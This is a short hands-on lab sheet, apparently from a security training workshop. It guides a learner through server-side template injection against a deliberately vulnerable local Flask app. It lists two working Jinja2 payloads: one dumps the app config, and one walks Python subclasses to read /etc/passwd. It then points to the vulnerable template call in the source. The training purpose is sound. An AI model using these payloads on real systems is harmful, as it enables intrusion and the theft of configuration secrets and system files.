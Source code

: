 ## Server-Side Template Injection
* Open the **Terminal** on your Desktop
* Run the command `stop_all_containers.sh`
* Now run the command `start_flask.sh`, which will start a new container
* Open the Chrome Browser and navigate to a non-existent path:
	* `http://localhost:5050/non_existent_path`
* Substitute the `non_existent_path` with one of the payloads below.
* Payloads:
	* `{{ config.items() }}`
	* `{{''.__class__.mro()[2].__subclasses__()[40]('/etc/passwd').read()}}`

### Vulnerable Code - Template Injection
* Open Terminal
* Command: `cd /home/we45/Desktop/sources/Vulnerable-Flask-App`
* Command: `mousepad app/app.py`
* Mousepad opens up
	* goto line 101 and look for the vulnerable Template Call

### Stop App
* Run `stop_all_containers.sh`